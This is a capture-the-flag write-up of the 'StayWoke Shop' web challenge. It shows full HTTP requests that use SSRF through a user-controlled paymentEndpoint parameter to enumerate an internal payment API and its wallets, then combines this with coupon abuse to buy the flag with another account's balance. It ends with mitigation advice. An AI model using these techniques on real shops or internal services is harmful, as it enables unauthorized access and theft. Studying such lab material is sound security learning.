 # StayWoke Shop

## Solution

If we visit the listed products, we can see that the first product has the url `http://staywoke.hax1.allesctf.net/products/2`, the next `.../3` and so on.
Looks like product number `1` isn't listed on the page, let's see what happens if we visit `http://staywoke.hax1.allesctf.net/products/1`:

![](flag_product.png)

We can now put the flag into the shopping cart, however we do not have enough money to buy it. The POST request to `/checkout` looks interesting though:

```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090
```

`paymentEndpoint` may be vulnerable to SSRF. Appending an extra `/` at the end of the value of the `paymentEndpoint` parameter:

Request:
```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090/
```

Response:
```html
...
        <div class="alert bad">Error from Payment API: &quot;Cannot GET //wallets/abc/balance\n\nTry GETting /help for possible endpoints.&quot;</div>
...
```

Looks like the server requests `<paymentEndpoint>/wallets/<account>/balance`. The error tells us to visit `/help` for possible endpoints, we can do that
by adding a `?` at the end of `paymentEndpoint`, so the part coming afterwards will be ignored / not interpreted as a domain path.

Request:
```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090/help?
```

Response:
```html
...
        <div class="alert bad">Error from Payment API: {&quot;endpoints&quot;:[{&quot;method&quot;:&quot;GET&quot;,&quot;path&quot;:&quot;/wallets/:id/balance&quot;,&quot;description&quot;:&quot;check wallet balance&quot;},{&quot;method&quot;:&quot;GET&quot;,&quot;path&quot;:&quot;/wallets&quot;,&quot;description&quot;:&quot;list all wallets&quot;},{&quot;method&quot;:&quot;GET&quot;,&quot;path&quot;:&quot;/help&quot;,&quot;description&quot;:&quot;this help message&quot;}]}</div>
...
```

So we got a list of possible endpoints:
```
/wallets/:id/balance
/wallets
/help
```

If we visit `/wallets` we get a list of all the current wallets.

Request:
```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090/wallets?
```

Response:
```html
...
        <div class="alert bad">Error from Payment API: [{&quot;account&quot;:&quot;1337-420-69-93dcbbcd&quot;,&quot;balance&quot;:133500}]</div>
...
```

If we try to use that wallet now, it tells us that wallet balance is too low, so perhaps the balance is in cent. I remembered that there was the coupon field and it took me some time
to find the coupon code in `http://staywoke.hax1.allesctf.net/api/news`:
```json
["neue Chemtrails gesichtet","COVID-19 ist erfunden von denen da oben","20% Rabatt mit dem Code I<3CORONA","BND betreibt neuen Honeypot \"CSCG\" um 0days abzugreifen","SARS-CoV-2 war ein Insiderjob"]
```

Unfortunately, we can't use the coupon code on the flag. Nevertheless, we can add an item for 1€ 10 times use the coupon on them to get a discount of 2€, remove all the 1€ items, add the flag and get a total price of 1335€ that is
exactly equal to the wallet balance of `1337-420-69-93dcbbcd`:

![](flag.png)


## Mitigation

I have no idea why one would ever let the user control the `paymentEndpoint` parameter, but I guess just verify that it is equal to `http://payment-api:9090`. For the `account` parameter, special characters like `?, #, /, \, %, @, ...` should be filtered.
